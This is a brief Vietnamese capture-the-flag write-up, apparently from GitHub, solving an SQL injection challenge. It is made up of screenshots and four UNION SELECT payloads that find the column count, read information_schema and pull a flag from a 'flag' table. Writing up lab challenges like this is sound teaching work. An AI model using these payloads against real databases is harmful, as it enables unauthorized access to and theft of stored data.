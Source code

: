 ![image](https://github.com/user-attachments/assets/b6654d7c-14d4-4d03-8b58-68fe33057090)

Đây là 1 bài SQLi

![image](https://github.com/user-attachments/assets/04b07dc5-1294-4abd-8f0f-14cbc5f2ebd2)

Dùng payload `aaaaa' UNION SELECT 1,2,3,4,5 -- -` thì thấy có thể dùng 5 cột:

![image](https://github.com/user-attachments/assets/1e64336f-f244-4923-b80a-8cccb6aba65c)

Dùng `aaaaa' UNION SELECT 1,2,3,4,table_name FROM information_schema.tables -- -` thì có 1 bảng tên là flag:

![image](https://github.com/user-attachments/assets/c18da7ce-73fc-41c7-8d51-da117f521e6b)

Dùng `aaaaa' UNION SELECT 1,2,3,4,column_name FROM information_schema.columns WHERE table_name = 'flag' -- -` thì thấy trong bảng flag có cột flag:

![image](https://github.com/user-attachments/assets/40f3efed-d266-4b96-a8a9-ea094dbe4efd)

Dùng `aaaaa' UNION SELECT flag,1,2,3,4 FROM flag -- -` để ra flag:

![image](https://github.com/user-attachments/assets/862936b0-a96a-4a6d-b406-066318f0dcca)





















